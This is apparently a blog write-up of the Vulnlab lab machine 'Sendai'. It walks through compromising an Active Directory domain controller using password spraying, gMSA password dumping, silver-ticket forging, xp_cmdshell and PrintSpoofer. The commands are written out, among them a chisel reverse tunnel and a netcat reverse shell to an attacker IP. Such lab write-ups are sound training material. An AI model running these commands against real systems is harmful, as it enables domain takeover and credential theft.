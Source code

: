 ```yaml
---
title: Vulnlab Standlone Machine - Sendai
date: 2024-03-30
categories: [vulnlab]
tags: [AD]
pin: false
---
```


## Vulnlab Standalone - Sendai

![_install](/assets/img/VL-Sendai/sendai.png)

# Initial Access
Starting off, I added the following entries to the /etc/hosts file:
```
10.10.64.43 sendai.vl
10.10.64.43 dc.sendai.vl
```

Started of with an initial nmap scan which revealed the following information:
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-14 18:08:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

Using smbclient I listed the shares and checked if there any shares which are open for unauthenticated use:
```
smbclient -L \\\\DC.sendai.vl\\
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        config          Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        sendai          Disk      company share
        SYSVOL          Disk      Logon server share
        Users           Disk
```
Upon checking the Sendai share, I found a txt file mentioning that a penetration test discovered numerous weak passwords, recommending changes as soon as possible. Also, in the transfers folder, I found the UserProfiles for a few users within the domain:
```
 smb: \transfer\> ls
  .                                   D        0  Tue Jul 11 15:00:20 2023
  ..                                  D        0  Tue Jul 18 19:31:04 2023
  anthony.smith                       D        0  Tue Jul 11 14:59:50 2023
  clifford.davey                      D        0  Tue Jul 11 15:00:06 2023
  elliot.yates                        D        0  Tue Jul 11 14:59:26 2023
  lisa.williams                       D        0  Tue Jul 11 14:59:34 2023
  susan.harper                        D        0  Tue Jul 11 14:59:39 2023
  temp                                D        0  Tue Jul 11 15:00:16 2023
  thomas.powell                       D        0  Tue Jul 11 14:59:45 2023
  ```
I saved the usernames to a file called 'users.txt' and tried common passwords such as Sendai01, Summer2024, etc. This method allowed me to recover the password for the user 'lisa.williams':
```
SMB         10.10.64.43     445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.43     445    DC               [-] sendai.vl\lisa.williams:[REDACTED] STATUS_PASSWORD_MUST_CHANGE
```
# Getting access to mgtsvc$
I reset the password for the user with the smbpasswd tool:
```
smbpasswd -U lisa.williams -r sendai.vl
```
Now that we have valid credentials I ran the remote python bloodhound ingestor to enumerate the environment:
```
bloodhound.py --zip -c All -d sendai.vl -u lisa.williams -p P@ssw0rd -dc DC.sendai.vl -ns 10.10.98.198
```
Inspecting the Bloodhound output and further enumerating the domain revealed the following path:
- Lisa.willams has GenericAll on the ADMSVC group
- The ADMSVC group can read the gMSA password of the mgtsvc$ user'
We can abuse this by adding the lisa.williams user to the ADMSVC group using pth-net:
```
pth-net rpc group addmem "admsvc" lisa.williams -U sendai.vl/lisa.williams -S 10.10.64.43 
```
We can exploit this by adding the lisa.williams user to the ADMSVC group using pth-net:
```
gMSADumper.py -u 'lisa.williams' -p 'P@ssw0rd' -d 'sendai.vl' 
```
Using evil-winrm we can get a shell on the target:
```
evil-winrm -i 10.10.98.198 -u 'mgtsvc$' -H [REDACTED]
```

# Crafting silver tickets
Now that we have initial access on the DC I enumerated the system a bit. I found that in the C:\config folder there is a file called '.sqlconfig' which contains the password for the sqlsvc user. Since this user is the service account for the MSSQL service we can forge a silver ticket for a privileged user to escalate privileges. To do this I first created a proxy using chisel which allowes me to interact with the MSSQL service which is running locally. 
On the target machine:
```
cmd /c C:\temp\chisel.exe client [ATTACKER]:8001 R:1080:socks
```
On the attacker machine:
```
chisel server -p 8001 --reverse
```
Next I created a silver ticket using the ticketer.py tool from impacket for the Administrator and imported the kerberos ticket:
```
ticketer.py -spn MSSQL/dc.sendai.vl -domain-sid S-1-5-21-3085872742-570972823-736764132 -nthash [REDACTED] -dc-ip dc.sendai.vl Administrator -domain sendai.vl
export KRB5CCNAME=Administrator.ccache
```
Using this ticket we connect over the proxy to the MSSQL service as Administrator:
```
proxychains -q mssqlclient.py dc.sendai.vl -k
```
Since we have administrative rights we can enable xp_cmdshell so we can execute command on the system:
```
sp_configure 'show advanced options', '1'
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

# Escalating to SYSTEM
Since we are the sqlsvc$ account we usually have SeImpersonate privileges which allows us to elevate to SYSTEM. We can confirm this by using:
```
whoami /privileged
```
This confirmed that we indeed have SeImpersonate privileges. Using Printspoofer and netcat I was able to get a reverse shell:
```
cmd /c C:\temp\PrintSpoofer.exe -c "c:\Temp\nc.exe 10.8.0.49 1337 -e cmd"
```
